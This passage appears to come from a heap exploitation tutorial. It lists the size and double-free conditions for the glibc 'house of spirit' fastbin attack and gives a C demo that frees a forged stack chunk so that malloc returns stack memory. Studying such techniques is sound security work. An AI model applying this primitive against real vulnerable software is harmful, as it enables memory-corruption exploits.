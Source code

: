   - The size of `next chunk` of `fake chunk` cannot be less than `2 * SIZE_SZ`, and it cannot be greater than `av->system_mem`, i.e. `128kb`

- The `fastbin` link header corresponding to `fake chunk` cannot be the `fake chunk`, that is, it cannot constitute a `double free` situation

- Sample Code

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

    fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
    malloc(1);

    fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
    unsigned long long *a;
    // This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfill allocations (po
inted to from fastbinsY)
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

    fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accommodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
    fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
    fake_chunks[1] = 0x40; // this is the size

    fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
    fake_chunks[9] = 0x1234; // nextsize

    fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
    fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
    a = &fake_chunks[2];

    fprintf(stderr, "Freeing the overwritten pointer.\n");
    free(a);

    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
    fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```
